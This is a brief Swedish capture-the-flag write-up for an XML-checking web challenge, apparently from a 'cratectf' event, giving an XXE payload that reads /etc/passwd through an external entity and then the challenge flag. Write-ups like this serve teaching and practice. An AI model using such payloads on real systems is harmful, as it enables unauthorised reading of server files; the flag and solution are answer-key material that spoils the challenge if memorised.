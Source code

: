 # XML-kontroll
**Kontrollera din XML med vår webbtjänst!**
*Skriv in din XML-data, vänta några sekunder, och få (nästan) samma sträng tillbaka. Snabbt, enkelt och... ja, det är ganska meningslöst, men det fungerar (nästan) felfritt!*

*Servern används också för att lagra en hemlig flagga, men den är i säkert förvar i namnet på ett användarkonto så det finns (nästan) absolut ingen risk att någon läser ut den från filsystemet!*

[http://challs.crate.nu:16627](http://challs.crate.nu:16627)

## Solution
1. Kolla [hacktricks](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity), de har ett tips på en xml-payload för att läsa `/etc/passwd`, testar denna
2. ```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/etc/passwd"> ]>
<data>&example;</data>``
3. Få flagga...


## Flag
**Flag:** `cratectf{xml_xxe_xploit_xpert}`
